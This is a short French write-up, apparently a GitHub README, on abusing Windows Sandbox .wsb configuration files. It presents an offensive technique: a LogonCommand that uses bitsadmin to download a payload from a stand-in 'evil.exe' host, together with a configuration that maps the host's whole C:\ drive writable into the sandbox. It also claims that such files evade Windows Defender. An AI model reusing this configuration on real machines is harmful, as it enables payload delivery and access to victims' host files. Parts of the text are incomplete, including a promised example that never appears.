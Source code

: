 
I  - Fonctionnement du Windows Sandbox


Windows Sandbox (WSB) va permettre de créer un environnement de bureau isolé, 
Les fichiers de configuration de WSB sont au format XML et utilisent l’extension .wsb.


![image](https://user-images.githubusercontent.com/75935486/152426360-480974ca-877d-4786-a715-237211be7558.png)



voici l'exemple d'un fichier de configuration: 




### Exploiter les configurations WSB:


Une des première méthodes consiste à modifier le champs `<Command>` pour executer notre commande malicieuse et accéder au fichiers systèmes de l'hote, en plus de ça les fichiers WSB ne se font pas détecter par Windows Defender.

Commande possible d'injecter:
```powershell
<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
```

Compromissions de la configuration:
```xml
<Configuration>
   <MappedFolders>
 	<MappedFolder>
	  <HostFolder>C:\</HostFolder>
 	  <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 	  <ReadOnly>false</ReadOnly>
 	</MappedFolder>
   </MappedFolders>
   <LogonCommand>
 	<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
   </LogonCommand>
</Configuration>
```

